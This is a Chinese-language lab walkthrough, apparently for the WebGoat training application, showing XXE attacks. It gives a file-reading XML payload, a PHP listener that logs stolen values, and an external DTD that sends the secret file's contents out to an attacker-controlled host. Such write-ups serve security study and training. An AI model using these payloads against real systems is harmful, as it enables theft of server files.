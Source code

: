 
按照xxe的思路，将请求体修改为一下内容发送，评论区将显示想要的结果  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>
<text>&secret;</text>
</comment>
```
但是返回结果并不是想要的内容，这是因为服务端检查到特殊的内容后，会将原本预期的内容修改  
![alt text](image-12.png)  

---

### 外带数据实现xxe攻击  

外带数据一般是将目标内容作为get请求的参数添加到url路径后面，查看请求得到url，以本题为例  

首先需要一个目标主机能访问到的服务，攻击者能查看这个服务的请求信息  
这里可以使用Apache搭建一个服务，要记录参数值，在/var/www/html/var/www/html/下新建一个get.php文件，内容如下  
```php
<?php

echo "This is very good!","</br>";
$file = fopen("test.txt","w");
foreach ($_GET as $key => $val){
    echo $key," ",$val,"</br>";
    fwrite($file,$val);
    fwrite($file,"\n");
}

fclose($file);
```  
当目标主机访问这个页面时，get请求的参数值会保存到test.txt文件中  


建立一个kk.txt,内容如下，kk.txt的作用是实现外部引用DTD，这里需要使用外部DTD  
```xml
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%file;'>">
```  

---  

发评论，抓包，修改请求体如下  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
查看test.txt,保存了目标内容  